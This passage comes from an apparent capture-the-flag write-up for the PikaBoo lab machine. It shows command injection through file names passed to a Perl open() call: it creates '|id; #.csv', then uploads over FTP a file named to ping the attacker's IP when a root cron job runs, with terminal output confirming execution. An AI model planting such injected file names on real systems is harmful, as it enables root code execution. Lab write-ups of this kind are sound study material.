 I’ll add a file that has a command injection name:

```

oxdf@parrot$ touch '|id; #.csv'

```

It runs the command:

```

oxdf@parrot$ perl test.pl ignore *.csv
uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(debian-tor),124(bluetooth),140(scanner),153(docker),998(vboxsf)
1
2
3
a
b

```

All of this is to show that if I can write into these directories (and create a file with a name like this), I’ll have execution as root.

#### POC on PikaBoo

I’ll use FTP to upload the empty `text.txt` file, but change the name to something that will `ping` me if it executes:

```

ftp> put test.txt "|ping -c 1 10.10.14.6; a.csv"
local: test.txt remote: |ping -c 1 10.10.14.6; a.csv
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.

```

When the minute rolls over, I get ICMP packets:

```

oxdf@parrot$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:20:05.293445 IP 10.10.10.249 > 10.10.14.6: ICMP echo request, id 25701, seq 1, length 64
16:20:05.293486 IP 10.10.14.6 > 10.10.10.249: ICMP echo reply, id 25701, seq 1, length 64

```

#### Shell

The challenge here is that I have to put everything I want to do in one line, and it can’t contain `/`. That means I can’t call a script in another directory, or directly do a reverse shell as they all contain `/`. I found two ways to do this (there are probably more).
